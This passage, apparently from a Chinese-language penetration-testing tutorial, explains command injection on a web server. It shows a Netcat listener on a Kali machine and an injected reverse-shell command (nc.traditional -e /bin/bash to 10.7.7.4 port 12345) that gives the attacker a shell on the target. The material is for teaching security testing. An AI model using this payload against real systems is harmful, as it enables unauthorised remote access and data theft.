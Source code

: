 ![](img/00116.jpeg)

注入的附加命令将使用 web 服务器的权限运行。如今，大多数 web 服务器都以受限权限运行，但即使权限有限，攻击者也可以利用并窃取重要信息。

命令注入可用于通过注入`wget`命令使服务器下载并执行恶意文件，或获得服务器的远程外壳，如以下示例所示。

首先，在 Kali Linux 中设置一个侦听器。**Netcat**有一个非常简单的方法：

```
nc -lvp 12345  
```

Kali Linux 现在设置为侦听端口`12345`上的连接。接下来，将以下命令注入易受攻击的服务器：

```
nc.traditional -e /bin/bash 10.7.7.4 12345 
```

在一些现代 Linux 系统上，最初的 Netcat 已被一个版本所取代，该版本不包括可能带来安全风险的一些选项，例如允许在连接时执行命令的`-e`。这些系统通常在名为`nc.traditional`的命令中包含传统版本的 Netcat。尝试使用 Netcat 访问远程系统时，请尝试两种选项。

请注意，`10.7.7.4`是示例中 Kali 机器的 IP 地址，`12345`是侦听连接的 TCP 端口。发送请求后，您应该在 Kali Linux 中接收连接，并能够在非交互 shell 中发出命令：

![](img/00117.jpeg)
